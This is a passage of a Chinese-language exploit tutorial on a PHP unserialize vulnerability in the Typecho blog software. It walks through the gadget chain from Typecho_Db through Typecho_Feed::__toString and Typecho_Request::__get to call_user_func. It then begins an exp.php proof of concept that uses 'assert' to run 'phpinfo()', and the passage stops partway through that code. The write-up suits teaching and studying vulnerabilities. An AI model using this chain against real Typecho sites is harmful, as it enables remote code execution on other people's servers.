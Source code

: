 ```php
    }

    private function _applyFilter($value)
    {
        if ($this->_filter) {
            foreach ($this->_filter as $filter) {
                $value = is_array($value) ? array_map($filter, $value) :
                call_user_func($filter, $value);
            }

            $this->_filter = array();
        }

        return $value;
    }
}

$config = unserialize(base64_decode($_GET['__typecho_config']));
$db = new Typecho_Db($config['adapter']);
?>
```

​	通过对代码的分析，可以得知，该web应用通过`$_GET[‘__typecho_config’]`从用户处获取了反序列化的对象，满足反序列化漏洞的基本条件，`unserialize()`的参数自身可控，这里是漏洞的入口点。

​	接下来，程序实例化了类`Typecho_Db`，会调用类`Typecho_Db`的构造函数，在函数中，使用反序列化得到的`$config`作为参数，进行了字符串拼接的操作，而在`PHP`魔术方法中，如果一个类被当做字符串处理，那么类中的`__toString()`方法将会被调用。全局搜索，发现类`Typecho_Feed`中存在`__toString()`方法。

​	在类`Typecho_Feed`的`__toString()`方法中，会访问类中私有变量`$item[‘author’]`中的`screenName`，这里又有一个`PHP`反序列化的知识点，如果`$item[‘author’]`是一个对象，并且该对象没有`screenName`属性，那么这个对象中的`__get()`，方法将会被调用，在`Typecho_Request`类中，正好定义了`__get()`方法。

​	类`Typecho_Request`中的`__get()`方法会返回`get()`，`get()`中调用了`_applyFilter()`方法，而在`_applyFilter()`中，使用了`PHP`的`call_user_function`()函数，其第一个参数是被调用的函数，第二个参数是被调用的函数的参数，在这里`$filter`，`$value`都是我们可以控制的，至此我们就可以通过传入适当的值，来执行任意函数。

​	**这样，我们就完成了一条完整的利用链的构造。**



## 2 建立exe.php文件

​	接下来我们开始利用上一部分的利用链，写出对应的代码：

```php
/*exp.php*/
<?php
class Typecho_Feed
{
    private $item;
	
    public function __construct(){
        $this->item = array(
            'author' => new Typecho_Request(),
        );
    }
}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName'] = 'phpinfo()';
        $this->_filter[0] = 'assert';
    }
}
$exp = array(
```